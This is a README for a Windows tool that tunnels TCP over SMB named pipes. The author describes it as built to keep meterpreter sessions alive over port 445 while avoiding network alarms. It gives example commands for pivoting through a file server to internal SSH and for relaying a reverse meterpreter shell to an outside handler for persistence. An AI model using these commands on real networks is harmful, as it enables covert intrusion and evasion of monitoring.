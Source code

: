# flatpipes
A TCP proxy over named pipes. Originally created for maintaining a meterpreter session over 445 for less network alarms.

![help](https://github.com/dxflatline/misc/raw/master/flatpipes-help.PNG "help")

Since it seems it can help in various situations, let's list a few:

#### TCP 10001 Chat over Named Pipe

On the 1st Windows host (pipe server): *flatpipes.exe pserver sserver pipename . 127.0.0.1 10001*
> The above will create two pipes "pipename_s2c" & "pipename_c2s" and as soon as negotiation is ok will open a TCP listener at 10001

On the 2nd Windows host (pipe client): *flatpipes.exe pclient sserver pipename X.X.X.X 127.0.0.1 10001*
> Here we just connect to the pipe(s) created earlier on the system X.X.X.X. As soon as we successfully connect, flatpipes open a listener on 10001 on this client machine too

Finally, netcat on the two hosts on their listeners and chat with yourself.

#### Bring a remote port here

Let's suppose you have access on the MS Fileserver through a Windows "jumphost" workstation. You want to ensure all communications are over 445 since it is normal for workstation to DC. We need to access SSH on another system in the server LAN but we can only connect to MS Fileserver 445 (and eg WMI for command exec)

On the MS Fileserver: *flatpipes.exe pserver sclient pipename . 10.0.2.2 22*
> The above will create our pipes for "IPC", and as soon as we connect, it will TCP connect to the SSH server in the LAN. All IO is through the flatpipes

On the jumphost: *flatpipes.exe pclient sserver pipename 10.0.2.10 127.0.0.1 22*
> The above will PIPE connect to the MS fileserver 10.0.2.10, and immediately spawn a TCP listener on localhost 22

Just ssh on 127.0.0.1 22 and you are through the town portal

#### Reverse TCP meterpreter through pipes
On the MS Fileserver again and you want to maintain persistence, but over 445. You want reverse TCP meterpreter but also you want the jumphost to initiate the 445 connection.

On the MS Fileserver: *flatpipes.exe pserver sserver pipename . 127.0.0.1 54321*
> Same as above, we create two pipes and listen on 127.0.0.1 54321 for the reverse TCP meterpreter

On the jumphost: *flatpipes.exe pclient sclient pipename 10.0.2.10 IP_OF_METERPRETER_HANDLER 54321*
> We connect to the MS Fileserver and immediately connect to the handler. 

What this means is that we can exchange directions, eg use a reverse exploitation, but make the opposite network traffic. It is like an encapsulation over DNS, just needs some familiarization.

---
I hope it will help. It is not very well-written, I welcome comments / looking for feedback.

<dl>
  <dt>Todo</dt>
  <dd>Include a meterpreter bind/reverse stager (exec will C# virtualalloc / createthread)</dd>
  <dd>"Monkey patch" the above stager to change port on the fly (on hex)</dd>
  <dd>Think any other useful scenarios</dd> 
</dl>
